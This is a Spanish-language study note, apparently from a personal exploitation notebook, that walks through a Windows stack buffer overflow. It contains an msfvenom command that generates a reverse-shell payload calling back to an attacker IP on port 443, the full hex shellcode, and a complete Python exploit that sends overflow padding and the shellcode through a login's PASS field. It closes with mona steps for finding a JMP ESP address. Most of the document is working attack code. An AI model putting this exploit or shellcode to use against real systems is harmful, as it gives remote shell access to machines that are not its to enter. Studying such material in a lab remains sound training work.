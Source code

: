 #BufferOverflow #ShellCode 

Debemos de generar un *shellcode* en hexadecimal a bajo nivel que se encargue de entablar una reverse shell, este *shellcode* será introducido en el *ESP* para que sea interpretado y dos de acceso a la máquina.
Usaremos [[MSFVENOM]]
`msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 LHOST=192.168.1.22 LPORT=443 -f c -e x86/shikata_ga_nai -b '\x00\x0a\x0d' EXITFUNC=thread`
	*-p* = Payload
	*--platform* = SO
	*-a* = Arquitectura
	*LHOST* = IP atacante
	*LPORT* = Puerto de escucha
	*-f* = Formato (ej: py, c, js...)
	*-e* = Encoder
	*-b* = Badchars
	*EXITFUNCT=thread* = Para no romper el proceso principal y el servicio siga estando operativo
	
Nos generara el *shellcode*
```shell
"\xbb\xfb\x85\x16\xf3\xdb\xc2\xd9\x74\x24\xf4\x5a\x2b\xc9"
"\xb1\x52\x31\x5a\x12\x03\x5a\x12\x83\x11\x79\xf4\x06\x19"
"\x6a\x7b\xe8\xe1\x6b\x1c\x60\x04\x5a\x1c\x16\x4d\xcd\xac"
"\x5c\x03\xe2\x47\x30\xb7\x71\x25\x9d\xb8\x32\x80\xfb\xf7"
"\xc3\xb9\x38\x96\x47\xc0\x6c\x78\x79\x0b\x61\x79\xbe\x76"
"\x88\x2b\x17\xfc\x3f\xdb\x1c\x48\xfc\x50\x6e\x5c\x84\x85"
"\x27\x5f\xa5\x18\x33\x06\x65\x9b\x90\x32\x2c\x83\xf5\x7f"
"\xe6\x38\xcd\xf4\xf9\xe8\x1f\xf4\x56\xd5\xaf\x07\xa6\x12"
"\x17\xf8\xdd\x6a\x6b\x85\xe5\xa9\x11\x51\x63\x29\xb1\x12"
"\xd3\x95\x43\xf6\x82\x5e\x4f\xb3\xc1\x38\x4c\x42\x05\x33"
"\x68\xcf\xa8\x93\xf8\x8b\x8e\x37\xa0\x48\xae\x6e\x0c\x3e"
"\xcf\x70\xef\x9f\x75\xfb\x02\xcb\x07\xa6\x4a\x38\x2a\x58"
"\x8b\x56\x3d\x2b\xb9\xf9\x95\xa3\xf1\x72\x30\x34\xf5\xa8"
"\x84\xaa\x08\x53\xf5\xe3\xce\x07\xa5\x9b\xe7\x27\x2e\x5b"
"\x07\xf2\xe1\x0b\xa7\xad\x41\xfb\x07\x1e\x2a\x11\x88\x41"
"\x4a\x1a\x42\xea\xe1\xe1\x05\xd5\x5e\xe8\xc3\xbd\x9c\xea"
"\xea\x86\x28\x0c\x86\xe8\x7c\x87\x3f\x90\x24\x53\xa1\x5d"
"\xf3\x1e\xe1\xd6\xf0\xdf\xac\x1e\x7c\xf3\x59\xef\xcb\xa9"
"\xcc\xf0\xe1\xc5\x93\x63\x6e\x15\xdd\x9f\x39\x42\x8a\x6e"
"\x30\x06\x26\xc8\xea\x34\xbb\x8c\xd5\xfc\x60\x6d\xdb\xfd"
"\xe5\xc9\xff\xed\x33\xd1\xbb\x59\xec\x84\x15\x37\x4a\x7f"
"\xd4\xe1\x04\x2c\xbe\x65\xd0\x1e\x01\xf3\xdd\x4a\xf7\x1b"
"\x6f\x23\x4e\x24\x40\xa3\x46\x5d\xbc\x53\xa8\xb4\x04\x73"
"\x4b\x1c\x71\x1c\xd2\xf5\x38\x41\xe5\x20\x7e\x7c\x66\xc0"
"\xff\x7b\x76\xa1\xfa\xc0\x30\x5a\x77\x58\xd5\x5c\x24\x59"
"\xfc"
```

Este código lo implementaremos en el exploit:
```python
	#!/usr/bin/python3
	
	import socket
	import sys
	
	#Variables globales
	ip_adress = <IP_Victima>
	port = <Puerto>
	offset = 4654 #Ofset que nos ha dado metasploit
	
	before_eip = b"A"*offset #Cadena de A antes de llegar al offset(valor del EIP)
	eip = b"B"*4 #Cadena con el valor del EIP, es *4 por que es la capacidad del registro EIP
	
	shellcode = (b"\xbb\xfb\x85\x16\xf3\xdb\xc2\xd9\x74\x24\xf4\x5a\x2b\xc9"
				 b"\xb1\x52\x31\x5a\x12\x03\x5a\x12\x83\x11\x79\xf4\x06\x19"
				 b"\x6a\x7b\xe8\xe1\x6b\x1c\x60\x04\x5a\x1c\x16\x4d\xcd\xac"
				 b"\x5c\x03\xe2\x47\x30\xb7\x71\x25\x9d\xb8\x32\x80\xfb\xf7"
				 b"\xc3\xb9\x38\x96\x47\xc0\x6c\x78\x79\x0b\x61\x79\xbe\x76"
				 b"\x88\x2b\x17\xfc\x3f\xdb\x1c\x48\xfc\x50\x6e\x5c\x84\x85"
				 b"\x27\x5f\xa5\x18\x33\x06\x65\x9b\x90\x32\x2c\x83\xf5\x7f"
				 b"\xe6\x38\xcd\xf4\xf9\xe8\x1f\xf4\x56\xd5\xaf\x07\xa6\x12"
				 b"\x17\xf8\xdd\x6a\x6b\x85\xe5\xa9\x11\x51\x63\x29\xb1\x12"
				 b"\xd3\x95\x43\xf6\x82\x5e\x4f\xb3\xc1\x38\x4c\x42\x05\x33"
				 b"\x68\xcf\xa8\x93\xf8\x8b\x8e\x37\xa0\x48\xae\x6e\x0c\x3e"
				 b"\xcf\x70\xef\x9f\x75\xfb\x02\xcb\x07\xa6\x4a\x38\x2a\x58"
				 b"\x8b\x56\x3d\x2b\xb9\xf9\x95\xa3\xf1\x72\x30\x34\xf5\xa8"
				 b"\x84\xaa\x08\x53\xf5\xe3\xce\x07\xa5\x9b\xe7\x27\x2e\x5b"
				 b"\x07\xf2\xe1\x0b\xa7\xad\x41\xfb\x07\x1e\x2a\x11\x88\x41"
				 b"\x4a\x1a\x42\xea\xe1\xe1\x05\xd5\x5e\xe8\xc3\xbd\x9c\xea"
				 b"\xea\x86\x28\x0c\x86\xe8\x7c\x87\x3f\x90\x24\x53\xa1\x5d"
				 b"\xf3\x1e\xe1\xd6\xf0\xdf\xac\x1e\x7c\xf3\x59\xef\xcb\xa9"
				 b"\xcc\xf0\xe1\xc5\x93\x63\x6e\x15\xdd\x9f\x39\x42\x8a\x6e"
				 b"\x30\x06\x26\xc8\xea\x34\xbb\x8c\xd5\xfc\x60\x6d\xdb\xfd"
				 b"\xe5\xc9\xff\xed\x33\xd1\xbb\x59\xec\x84\x15\x37\x4a\x7f"
				 b"\xd4\xe1\x04\x2c\xbe\x65\xd0\x1e\x01\xf3\xdd\x4a\xf7\x1b"
				 b"\x6f\x23\x4e\x24\x40\xa3\x46\x5d\xbc\x53\xa8\xb4\x04\x73"
				 b"\x4b\x1c\x71\x1c\xd2\xf5\x38\x41\xe5\x20\x7e\x7c\x66\xc0"
				 b"\xff\x7b\x76\xa1\xfa\xc0\x30\x5a\x77\x58\xd5\x5c\x24\x59"
				 b"\xfc")
	
	payload = before_eip + eip + shellcode
	
	#Exploit
	def exploit():
		
		#Crar socket
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		
		#Conectar con el servidor
		s.connect((ip_adress, port))
		
		#Recibir la respuest(banner)
		banner = s.recv(1024)
		
		s.send(b"USER test" + b'\r\n') #Enviamos un usuario en el campo USER aleatorio en este caso TEST
		response = s.recv(1024)
		s.send(b"PASS " + payload + b'\r\n') #En el campo PASS introducira el payload que es igual a 4654 + eip
		s.close()
		
	if __name__ == '__main__':
		
		exploit()
```


Una vez detectados los *badchars* y generado el *shellcode* tendremos que buscar un *OpCode (Operaration Code)* que ejecute un *jump* a *ESP*
Para eso usaremos `!mona modules` en donde las 4 primeras columnas tienes que estar en FALSE, nos copiamos la dirección.
Ahora buscaremos la instrucción tipo *jump ESP* para ver si dentro del modulo que hemos encontrado hace esta *OpCode*


